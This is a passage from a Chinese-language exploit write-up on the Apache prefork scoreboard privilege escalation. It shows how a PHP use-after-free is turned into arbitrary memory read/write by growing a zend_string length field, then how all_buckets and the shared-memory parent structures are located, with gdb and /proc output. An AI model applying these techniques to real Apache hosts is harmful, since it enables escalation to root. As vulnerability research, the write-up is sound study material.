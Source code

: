 ```php
  return $p;
}

get_aslr();
```

这是PHP对象上的UAF： 我们unset $y[0]（X的一个实例），但它仍然可以通过$this使用。

##### UAF导致读/写

 我们希望实现两件事：
 
- 读取内存以查找all_buckets的地址
- 编辑共享内存，修改bucket，添加我们自定义的恶意结构
 
幸运的是，PHP的堆位于内存中的那两个之前。

PHP堆，ap_scoreboard_image，all_buckets的内存地址

```
root@apaubuntu:~# cat /proc/6318/maps | grep libphp | grep rw-p
7f4a8f9f3000-7f4a8fa0a000 rw-p 00471000 08:02 542265 /usr/lib/apache2/modules/libphp7.2.so

(gdb) p *ap_scoreboard_image 
$14 = {
  global = 0x7f4a9323e008, 
  parent = 0x7f4a9323e020, 
  servers = 0x55835eddea78
}
(gdb) p all_buckets 
$15 = (prefork_child_bucket *) 0x7f4a9336b3f0
```
由于我们在PHP对象上触发UAF，因此该对象的任何属性也将是UAF; 我们可以将这个zend_object UAF转换为zend_string。因为zend_string的结构非常有用：

```
(gdb) ptype zend_string
type = struct _zend_string {
    zend_refcounted_h gc;
    zend_ulong h;
    size_t len;
    char val[1];
}
```

len属性包含字符串的长度。 通过递增它，我们可以在内存中进一步读写，从而访问我们感兴趣的两个内存区域:共享内存和all_buckets。

#### 定位bucket index 和 all_buckets

我们需要修改ap_scoreboard_image->parent[worker_id]->bucket中的parent结构中的bucket。幸运的是，parent结构总是处于共享内存块的开始，因此很容易找到：

```
➜  /www curl 127.0.0.1
PID: 14380
7f8a19da9000-7f8a19dc1000 rw-s 00000000 00:04 61736                      /dev/zero (deleted)
➜  /www 

(gdb) p &ap_scoreboard_image->parent[0]
$1 = (process_score *) 0x7f8a19da9040
(gdb) p &ap_scoreboard_image->parent[1]
$2 = (process_score *) 0x7f8a19da9064
(gdb) 
```
